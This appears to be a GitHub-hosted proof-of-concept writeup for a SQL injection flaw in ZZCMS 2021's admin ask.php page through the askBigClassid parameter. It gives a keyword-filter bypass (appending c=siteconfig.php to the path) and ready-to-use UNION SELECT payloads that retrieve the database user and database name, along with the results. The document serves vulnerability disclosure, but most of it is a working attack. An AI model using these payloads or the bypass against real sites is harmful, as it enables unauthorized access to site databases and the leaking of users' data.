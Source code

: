 # ZZCMS 2021 SQL Injection POC

Profile
-----
    ZZCMS2021 has a SQL injection vulnerability that allows an attacker to access /admin/ask.php?The askBigClassid parameter on the do=add page retrieves sensitive data, causing sensitive information leakage of users.

Location
----
    http://ip/admin/ask.php?do=add

POC
----
1.Request the page as normal and get the response

2.If the invalid character "select" is used, the response will report an error

3.Use the c=siteconfig.php parameter in the request path to bypass sensitive strings such as select
Payload：askbigclassid=-1+union+select+user(),2,3,4,5,6,7,8,9,10,11
Query the current user name: root

4.Payload：askbigclassid=-1+union+select+database(),2,3,4,5,6,7,8,9,10,11
Query the current database name: ZZCMS
